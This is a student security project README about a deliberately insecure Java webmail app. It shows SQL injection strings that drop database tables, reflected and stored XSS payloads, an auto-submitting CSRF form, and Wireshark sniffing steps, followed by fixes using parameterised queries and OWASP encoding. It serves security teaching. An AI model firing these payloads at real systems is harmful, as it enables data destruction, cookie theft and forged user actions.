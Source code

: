 # InformationSecurity Project
Written by Antonio Coppe

## What is provided

The application provided is a web application that allows: 

- Login management;
- Reading, sending and receiving e-mails;

As a web server *Tomcat 10.0.16* was used, as a database *MySQL* and the applications to manage the database *DBeaver* and *Docker*. The application is provided at: https://github.com/francxx96/ExamProject and is totally "insecure".

## Discovered Vulnerabilities

### SQL Injection
Via the login form is possible to inject queries such as:
```mysql
'DROP TABLE [user];-- 	        --> Deleting the user table
'DROP TABLE mail;--		--> Deleting the mail table
'DROP TABLE *;--		--> Deleting all tables
```

### XSS Reflected

Via the register form is possible to inject runnable scripts such the one below:

```javascript
"><script>alert(document.cookie)</script>
```

### XSS Stored

Via the Object or Body field is possible to inject runnable javascript code such the one below:
```javascript
<img src=x onerror="alert('Pop-up window via stored XSS');"
```
### Cross Site Request Forgery Attack
By analyzing the network post request and the html form was possible to craft a request and run it as a logged user on his/hers behalf.
```html
<html>
   <form id="submitForm" class="form-resize" action="http://localhost:8080/ExamProject/SendMailServlet" method="post">
      <input type="hidden" name="email" value="antonio.coppe@gmail.com"/> <input
         type="hidden" name="password" value="null"/> <input
         class="single-row-input" type="hidden" name="receiver"
         placeholder="Receiver" value="antonio.coppe@gmail.com" required/> <input
         class="single-row-input" type="hidden" name="subject"
         placeholder="Subject" value="csrf text attack version 1" required>
       <textarea class="textarea-input" name="body" placeholder="Body" wrap="hard"  value = "this is the body of a csef attack"required></textarea>
       <input type="submit" name="sent" value="Send">
   </form>
   <script>document.getElementById("submitForm").submit()</script>
</html>
```

### Sniffing Attack
With the use of a tool called ***Wireshark***(A free and open-source packet analyzer) is possible to capture *HTTP* traffic and analyze it with various tools. I will list below the step by step process for capturing the aformentioned information:
- Run The Web Application and login;
- Open wireshark and select the interface;
- Go back to the browser and send an email;
- Filter the result in wireshark to http;
- Find the *POST* and *GET* requests;
- Open and Read the content under HTML Form URL Encoded;

![This is an image](https://github.com/AntonioCoppe/InformationSecurityProject/blob/main/WiresharkMailExploited.png)
![This is an image](https://github.com/AntonioCoppe/InformationSecurityProject/blob/main/WiresharkPacketSniffing.png)


## Implementation of a "Secure" application

### SQL Injection
A solution i found was to use parametrized queries. That means you don't concatenate user-supplied values. Instead you use placesholders for those values ensuring the values themselves are never part of the text of the query.

"Safe" Code for the loginServlet.java class:

```java
String email = request.getParameter("email");
		String pwd = request.getParameter("password");

		String query = "SELECT * FROM [user] WHERE email = ? AND password = ?";

		try {

			PreparedStatement statement = conn.prepareStatement(query);
			statement.setString(1, email);
			statement.setString(2, pwd);
			ResultSet sqlRes = statement.executeQuery();

			if (sqlRes.next()) {
				request.setAttribute("email", sqlRes.getString(3));
				request.setAttribute("password", sqlRes.getString(4));

				System.out.println("Login succeeded!");
				request.setAttribute("content", "");
				request.getRequestDispatcher("home.jsp").forward(request, response);

			} else {
				System.out.println("Login failed!");
				request.getRequestDispatcher("login.html").forward(request, response);
			}

		} catch (SQLException e) {
			e.printStackTrace();
			request.getRequestDispatcher("login.html").forward(request, response);
		}

```

"Safe" Code for the RegisterServlet.java class:

```java
try {

			PreparedStatement statement = conn.prepareStatement(SelectQuery);
			statement.setString(1, email);
			ResultSet sqlRes = statement.executeQuery();

			if (sqlRes.next()) {
				System.out.println("Email already registered!");
				request.getRequestDispatcher("register.html").forward(request, response);

			} else {

				String InsertQuery = "SET NOCOUNT ON INSERT INTO [user] (name, surname, email, password ) VALUES (?, ?, ?, ?)";

				PreparedStatement Insertstatement = conn.prepareStatement(InsertQuery);
				Insertstatement.setString(1, name);
				Insertstatement.setString(2, surname);
				Insertstatement.setString(3, email);
				Insertstatement.setString(4, pwd);

				@SuppressWarnings("unused")
				boolean sqlInsRes = Insertstatement.execute();

				request.setAttribute("email", email);
				request.setAttribute("password", pwd);

				System.out.println("Registration succeeded!");
				request.getRequestDispatcher("home.jsp").forward(request, response);

			}

		} catch (SQLException e) {
			e.printStackTrace();
			request.getRequestDispatcher("register.html").forward(request, response);
		}
```
### XSS Reflected
By Using the owasp.encoder.Encode library was possible to resolve the XSS reflected attacks, the code below contains the encoder function.
```java
    /**
	 * Encodes for a Java string.
	 *
	 * @param s
	 * @return Encoded String
	 */
	public static String encodeForJava(String s) {
		return Encode.forJava(s);
	}
```

### XSS Stored
By Using the owasp.encoder.Encode library was possible to resolve the XSS Stored attacks, the code below contains the encoder functions.
```java
/**
	 * Encodes for HTML text attributes.
	 *
	 * @param s
	 * @return Encoded String
	 */
	public static String encodeForHtmlAttribute(String s) {
		return Encode.forHtmlAttribute(s);
	}
	
	
	/**
	 * Encodes for HTML text content.
	 *
	 * @param s
	 * @return Encoded String
	 */
	public static String encodeForHtmlContent(String s) {
		return Encode.forHtmlContent(s);
	}
	
	/**
	 * This method encodes for JavaScript strings contained within HTML script attributes (such as onclick).
	 *
	 * @param s
	 * @return Encoded String
	 */
	public static String encodeForJavaScriptAttribute(String s) {
		return Encode.forJavaScriptAttribute(s);
	}
```


